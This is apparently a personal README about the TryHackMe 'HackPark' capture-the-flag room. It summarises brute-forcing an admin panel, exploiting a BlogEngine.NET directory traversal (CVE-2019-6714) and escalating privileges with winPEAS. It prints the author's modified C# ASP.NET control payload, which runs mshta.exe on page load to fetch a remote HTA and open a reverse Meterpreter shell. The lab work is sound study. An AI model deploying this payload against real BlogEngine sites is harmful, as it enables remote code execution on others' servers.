

<a href="https://tryhackme.com/room/hackpark" target="_blank"></a>

## Background

This room challenges its mock attackers to exploit vulnerabilities in a web application. It mainly involves brute forcing an admin login panel and exploiting a path traversial bug in the CMS. Post-exploitation has the attacker use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to work out privesc vulnerabilities to get SYSTEM-level privileges on the target system.

### Writeups

* https://infosecwriteups.com/tryhackme-writeup-hackpark-bd9c075c5262
* https://0x00sec.org/t/modified-cve-2019-6714-poc-to-execute-payload-via-mshta-exe/32728

### Materials

* [PostView.cs](./materials/PostView.cs): this is a custom payload that I wrote when exploiting a directory traversial vulnerability in a .NET content management system.

## Takeaways

I already published a writeup, so will not go into detail in how I went about rooting the target system. However, there are some interesting things to note: 

* Reverse image searches can be useful in finding information about the organisation or target system.
* [Burp Suite](https://portswigger.net/burp)'s intruder feature can be used to brute force username/password combinations.
* Modifying C# _proof-of-concepts_ can be helpful in exploiting the system.

The following is source code of my modified version of a payload used in a path traversial attack allowing me to get a reverse Meterpreter shell:

```c#
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);
        System.Diagnostics.Process payload = new System.Diagnostics.Process();
        payload.StartInfo.FileName = "mshta.exe";
        payload.StartInfo.Arguments = ""; // url to HTA with payload
        payload.StartInfo.UseShellExecute = true;
        payload.StartInfo.CreateNoWindow = true;
        payload.Start();
    }
    
</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
/*
 * References
 * Cobb, D. (2019). BlogEngine.NET <= 3.3.6 Directory Traversal RCE. Exploit Database. Retrieved on Apr. 25, 2022 from: https://www.exploit-db.com/exploits/46353
 *
 */
``` 

